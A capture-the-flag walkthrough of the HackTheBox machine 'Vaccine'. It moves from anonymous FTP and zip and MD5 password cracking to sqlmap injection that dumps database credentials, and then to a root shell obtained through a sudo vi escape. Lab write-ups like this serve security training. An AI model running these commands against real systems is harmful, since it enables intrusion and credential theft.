 ```yaml
---
title: Vaccine - A HackThebBox machine 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
---
```


# Vaccine - A HackTheBox machine


```bash
nmap -sC -sV $ip -Pn
```
Two open ports: 21 and 80


Also, from nmap analysys, ftp service at 21 allows us to use anonymous signin with empty password:

```bash
ftp $ip

# enter user "anonymous" and hit enter when prompted for password
```

```ftp
dir
# listed appears file backup.zip

get *
```

Try to open zip file, but it's password protected, so we crak it with [johntheripper](john-the-ripper.md):


```bash
zip2john nameoffile.zip > zip.hashes
cat zip.hashes
john zip.hashes
# Proceeding with wordlist:/usr/share/john/password.lst
# 741852963        (backup.zip)    


#Unzip file:
unzip backup.zip

# Echo index file
cat index.php
```

Before the html code there is a piece of php starting the session. Username and password are hard encoded there:

```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

In crackstation.net, we obtain that the hash "2cb42f8734ea607eefed3b70af13bbd3" was md5 encrypted and that actual password is "qwerty789"

With this, open browser and enter username and password. You will be redirected to: htpp://$ip/dashboard.php

Search box triggers a error message on frontend when introducing simple quotation mark as imput "'":

```
 ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
```

This tells us about a sql injection vulnerability.


```bash
# Ask for backend DBMS
sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=kcr9helek579t5cjcldcbb5fc1" --batch      

#---------
# [11:03:27] [INFO] the back-end DBMS is PostgreSQL
#web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (eoan or focal)
#web application technology: Apache 2.4.41
#back-end DBMS: PostgreSQL



# Ask for databases
sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=kcr9helek579t5cjcldcbb5fc1" --batch --dbs

# ------
# [11:06:12] [INFO] fetching database (schema) names available databases [3]:
# [*] information_schema
# [*] pg_catalog
# [*] public



# Ask for tables in db pg_catalog
sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=kcr9helek579t5cjcldcbb5fc1" --batch -D pg_catalog --tables

# Response contains 62 tables. 


# Ask for users
sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=kcr9helek579t5cjcldcbb5fc1" --batch --users 

# -----
# [11:10:16] [INFO] resumed: 'postgres'
# database management system users [1]:
# [*] postgres


sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=kcr9helek579t5cjcldcbb5fc1" --batch -D pg_catalog -T pg_user -C passwd,usebypassrls,useconfig,usecreatedb,usename,userepl,usesuper,usesysid,valuntil --dump



# Ask for passwords
sqlmap -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=kcr9helek579t5cjcldcbb5fc1" --batch --passwords --dump

# -----
# database management system users password hashes:
# [*] postgres [1]:
#    password hash: md52d58e0637ec1e94cdfba3d1c26b67d01

```

First 3 characters are a tip about the hash. Using https://md5.gromweb.com/?md5=2d58e0637ec1e94cdfba3d1c26b67d01 we obtain: The MD5 hash: 2d58e0637ec1e94cdfba3d1c26b67d01 was succesfully reversed into the string: P@s5w0rd!postgres

Now, as we couldn't spot [port 5432 (postgres)](5432-postgresql.md) open, we will use port-tunneling with ssh.

```bash
ssh UserNameInTheAttackedMachine@IPOfTheAttackedMachine -L 1234:localhost:5432 
# We will listen for incoming connections on our local port 1234. When a client connects to our local port, the SSH client will forward the connection to the remote server on port 22. This allows the local client to access services on the remote server as if they were running on the local machine.
# We are forwarding traffic from any given local port, for instance 1234, to the port on which PostgreSQL is listening, namely 5432, on the remote server. We therefore specify port 1234 to the left of localhost, and 5432 to the right, indicating the target port.

ssh postgres@10.129.95.174 -L 1234:localhost:5432

```

After this, we can "cat" the user.txt file. 

To escalate provileges, first we can use some commands for basic reconnaissance:

```bash
whoami
id
sudo -l
```

Last one provides us with interesting output:

```
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

We can abuse [suid binaries technique](suid-binaries.md) to gain access to root user:

```bash
 sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
:set shell=/bin/sh
:shell
```

Once there, print out root flag:

```bash
cat /root/root.txt
```




